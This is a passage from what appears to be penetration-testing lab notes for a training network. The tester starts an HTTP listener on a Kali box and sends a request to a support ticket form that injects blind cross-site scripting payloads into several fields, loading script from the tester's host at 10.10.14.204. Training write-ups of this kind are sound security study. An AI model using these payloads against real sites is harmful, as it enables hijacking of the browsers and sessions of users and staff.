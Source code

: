 ![Firefox - Support Subdomain Homepage](./assets/screenshots/attacking_enterprise_networks_external_testing_21.png)

```
┌──(nabla㉿kali)-[~]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

**Cross-Site Scripting (XSS)**

```http
GET /ticket.php?Name="><script+src=http://10.10.14.204:8000/test_name></script>&Email=test%40mail.com&Phone+Number=1234567890&Product="><script+src=http://10.10.14.204:8000/test_product></script>&os=win&browser=firefox&message="><script+src=http://10.10.14.204:8000/test_message></script>&ttype=feature HTTP/1.1
Host: support.inlanefreight.local

[SNIP]
```

![Burp Suite - Support GET Ticket XSS Attempt 1](./assets/screenshots/attacking_enterprise_networks_external_testing_22.png)
